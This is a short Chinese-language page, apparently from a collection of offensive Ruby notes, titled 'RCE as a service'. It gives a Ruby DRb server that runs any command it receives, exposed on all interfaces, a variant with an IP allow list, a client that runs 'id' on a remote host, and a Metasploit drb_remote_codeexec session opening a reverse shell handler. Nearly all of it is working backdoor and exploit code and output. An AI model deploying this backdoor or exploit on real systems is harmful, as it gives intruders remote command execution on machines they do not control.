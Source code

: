 # RCE作为服务

DRb允许Ruby程序在同一台机器上或通过网络进行通信。DRb使用远程方法调用（RMI）在进程之间传递命令和数据。

## RCE服务

```
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join 
```

注意：它适用于所有操作系统平台

`drb`库支持ACL以防止/允许特定IP地址。例如。

```
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

# Access List
acl = ACL.new(%w{deny all
                allow localhost
                allow 192.168.1.*})
DRb.install_acl(acl)
DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join 
```

## 客户端

```
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id" 
```

或者你可以使用Metasploit模块来获得一个优雅的shell！

```
msf > use exploit/linux/misc/drb_remote_codeexec 
msf exploit(drb_remote_codeexec) > set URI druby://192.168.0.13:8080
uri => druby://192.168.0.13:8080
msf exploit(drb_remote_codeexec) > exploit 

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UAR3ld0Uqnc03yNy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
```